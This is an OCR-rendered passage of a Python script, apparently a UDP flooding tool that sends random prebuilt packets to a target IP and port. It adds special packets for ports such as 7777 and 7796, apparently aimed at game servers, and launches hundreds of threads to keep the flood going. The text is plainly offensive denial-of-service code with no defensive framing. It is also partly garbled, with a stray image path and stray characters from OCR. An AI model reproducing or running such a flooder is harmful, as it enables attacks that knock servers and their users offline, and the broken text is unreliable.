                 msg = Pacotes[random.randrange(0,5)]
                     
                sock.sendto(msg, (ip, int(port)))
                
                
                if(int(port) == 7777):
                    sock.sendto(Pacotes[5], (ip, int(port)))
                elif(int(port) == 7796):
                    sock.sendto(Pacotes[4], (ip, int(port)))
                elif(int(port) == 7771):
                    sock.sendto(Pacotes[6], (ip, int(port)))
                elif(int(port) == 7784):
                    sock.sendto(Pacotes[7], (ip, int(port)))
                    
                

if __name__ == '__main__':
    try:
     for x in range(200):                                    
            mythread = MyThread()  
            mythread.start()                                  
            time.sleep(.1)    
    except(KeyboardInterrupt):
         os.system('cls' if os.name == 'nt' else 'clear')
         
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
		th = threading.Thread(target = run2)
		th.start()
		th = threading.Thread(target = run3)
		th.start()
		th = threading.Thread(target = run4)
		th.start()
else:
		th = threading.Thread(target = run5)
1		th.start()
